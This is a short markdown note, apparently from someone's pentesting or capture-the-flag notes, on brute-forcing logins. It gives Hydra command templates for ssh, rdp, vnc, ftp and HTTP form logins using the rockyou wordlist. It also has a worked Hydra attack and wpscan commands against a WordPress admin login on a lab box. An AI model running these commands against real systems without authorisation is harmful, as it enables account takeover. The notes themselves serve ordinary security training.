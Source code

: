 # Attacks

## Hydra

### Basics

A standard attack looks like: 

`hydra -l ${user} -P /usr/share/wordlists/rockyou.txt ${RHOST} ${mode}`
modes can be eg. `ssh`, `rdp`,`vnc`, `ftp` or `http[s]-post-form`.

An example of an attack made towards a wordpress site eg. looked like this:
```
hydra $RHOST -l Elliot -P fsocity.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username"
```
(For this particular box, we were given a file `fsocity.dic` to use for fuzzing)

## WordPress

If you find a wordpress site, it's worth checking if you can pwn the admin login with:

```
wpscan -U admin --url $RHOST/${PATH} -P /usr/share/wordlists/rockyou.txt
```

An example of an equivalent `wpscan` command for the above hydra command, is:

```
wpscan -U Elliot --url $RHOST/wp-login -P fsocity.dic 
```
